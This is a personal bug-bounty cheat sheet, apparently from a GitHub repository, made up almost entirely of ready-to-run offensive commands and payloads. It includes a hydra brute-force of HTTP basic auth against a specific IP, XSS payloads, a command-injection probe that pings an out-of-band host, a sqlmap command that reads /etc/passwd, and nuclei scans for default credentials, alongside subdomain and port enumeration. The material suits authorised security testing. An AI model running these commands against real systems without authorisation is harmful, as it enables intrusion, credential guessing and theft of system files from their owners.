 # Bug Bounty Personal Tips

## Recon 

## shodan
`http.favicon.hash:123456789`

## Basic Auth
`hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 94.237.51.23 http-get / -s 42849`

## gobuster 
`gobuster vhost -u http://inlanefreight.htb:35380/ -w SecLists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain -t 500`

## HTTPX 

`/home/kali/go/bin/httpx -l FC -ss -srd /media/sf_Test/FC/screenshots/ --title --status-code -o /media/sf_Test/FC_httpx.txt `

`/home/kali/go/bin/httpx -l FC -proxy http://192.168.0.131:1337 `

```
/home/kali/go/bin/httpx -l CHANGEME \
    -p 80,81,443,591,593,832,981,1010,1311,2082,2087,2095,2096,2480,3000,3128,3333,4243,4567,4711,4712,4993,5000,5104,5800,6543,7000,7396,7474,8000,8001,8008,8014,8042,8069,8080,8081,8088,8090,8091,8118,8123,8172,8222,8243,8280,8281,8333,8443,8500,8834,8880,8888,8983,9000,9043,9060,9080,9090,9091,9200,9443,9800,9981,12443,16080,18091,18092,20720,28017,11443 \
    -sc -follow-redirects --title -ss -favicon \
    -srd /media/sf_Test/CHANGEME/screenshots/ \
    -o /media/sf_Test/CHANGEME/CHANGEME_httpx.txt \
    -proxy http://192.168.0.131:1337
```

## FUZZ 

```
ffuf -w /media/sf_Test/_CHANGEME/CHANGEME.txt:DOMAINSFUZZ \
     -w /media/sf_Test/https.txt:SCHEMEFUZZ \
     -w /media/sf_Test/filesoptmized.txt:FILESFUZZ \
     -u "SCHEMEFUZZ://DOMAINSFUZZ/FILESFUZZ" -x "http://192.168.0.131:1337" -t 500
```

## XSS
`  : /"><script>alert(document.cookie)</script> `

` %27)+O+%22%3E%3Cscript%3Ealert(document.domain);%3C/script%3E `

## SSRF 
` galletita ; ping -c 1 burp.oastify.com `

## SQLMAP

`sqlmap -u "http://X/dashboard/dashboard.php" --file-read="/etc/passwd"`

### OTHERS
` assetfinder X.com | tee -a /tmp/X.txt`

` cat /tmp/X.txt | httprobe -p http:81 -p https:8443 -p http:8000 -p http:8001 -p http:8181 -t 40000 | tee -a /tmp/X.txt `

`  nuclei -l p.txt -t cves/ -t default-credentials/ -o priceline_results.txt -p http://192.168.100.2:1337`

` subfinder -d X | /home/kali/go/bin/httpx -u -status-code -title -tech-detect -follow-redirects -timeout 5 `

` site:*.com.ar "bug bounty" OR "vulnerability disclosure" OR "security policy" `

